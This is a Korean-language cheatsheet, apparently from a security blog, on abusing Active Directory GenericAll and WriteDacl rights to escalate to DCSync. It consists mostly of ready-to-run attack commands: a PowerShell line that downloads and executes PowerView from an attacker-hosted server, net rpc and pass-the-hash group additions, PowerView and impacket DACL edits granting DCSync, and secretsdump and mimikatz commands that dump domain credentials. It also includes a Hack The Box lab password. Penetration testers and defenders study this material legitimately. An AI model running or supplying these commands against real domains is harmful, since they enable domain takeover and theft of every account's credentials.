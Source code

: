 ```yaml
---
title: "How to abuse GenericAll / WriteDacl permission on Active Directory"
date: 2025-10-03
categories: [cheatsheet]
tags: [AD, bloodhound, permission]
---
```


![1](/assets/images/cheatsheet/abuse_dacl/스크린샷%202025-10-04%20오후%202.59.57.png)

상황 예시: BloodHound에서 GenericAll → target group, 그 그룹이 WriteDACL 권한을 도메인에 가지고 있어 DCSync 권한 부여로 이어지는 체인.

> 메모: PowerView in-memory 로드
```
# 공격자(예: Kali)에서 python3 -m http.server 8000 실행 후, 타겟에서 직접 로드
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.8:8000/PowerView.ps1')
```

## GenericAll abuse

**Linux (Samba / rpc 모듈 사용)**

목적: GenericAll 권한을 이용해 대상 그룹에 사용자 추가
```
# 일반 계정/비밀번호 사용
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

# Pass-the-hash (LM:NT 해시) 사용 예시 (pth-net 포함)
pth-net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

확인
```
net rpc group members "TargetGroup" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

PoC
![2](/assets/images/cheatsheet/abuse_dacl/스크린샷%202025-10-04%20오후%203.41.26.png)

**Windows (PowerView)**

Credential 생성
```
$SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)
```

그룹 멤버 추가
```
Add-DomainGroupMember -Identity 'target_group' -Members 'target_member' -Credential $Cred
```

확인
```
Get-DomainGroupMember -Identity 'target_group'
```

실제 예 (htb forest machine 풀이 중)
```
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)

# 이미 svc-alfresco로 로그인한 세션이면 Credential 생략 가능
Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'svc-alfresco' -Credential $Cred

Get-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS'
```

![4](/assets/images/cheatsheet/abuse_dacl/스크린샷%202025-10-04%20오후%203.50.08.png)

## WriteDacl abuse

**Linux (impacket)**

impacket-dacledit 를 이용해 도메인 오브젝트의 DACL을 수정하여 DCSync 권한 부여
```
impacket-dacledit -action 'write' -rights 'DCSync' -principal 'target_user' -target-dn 'DN' domain/'user':'pass'
```

**Windows (PowerView)**

Credential 준비
```
$SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)
```

도메인 오브젝트의 DACL에 DCSync 권한 추가
```
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'target_user' --TargetIdentity 'domainDN' -Rights DCSync
```

원라인 스크립트 예시
```
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'svc-alfresco';
Start-Sleep -Seconds 2;
$Sec = ConvertTo-SecureString 's3rvice' -AsPlainText -Force;
$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $Sec);
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'HTB\svc-alfresco' -TargetIdentity 'DC=htb,DC=local' -Rights DCSync
```

Add-DomainObjectAcl 사용 시 -PrincipalIdentity로 유저를 지정해야 정상 동작.

-TargetIdentity는 도메인명 문자열이 아닌 DN(DC=htb,DC=local) 형식으로 지정해야 정상 동작.

## DCSync
**Linux (impacket)**
```
impacket-secretsdump domain/user:pass@target_ip
```
**Windows (mimikatz)**
mimikatz.exe 사용
```
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:htb.local /user:Administrator
```
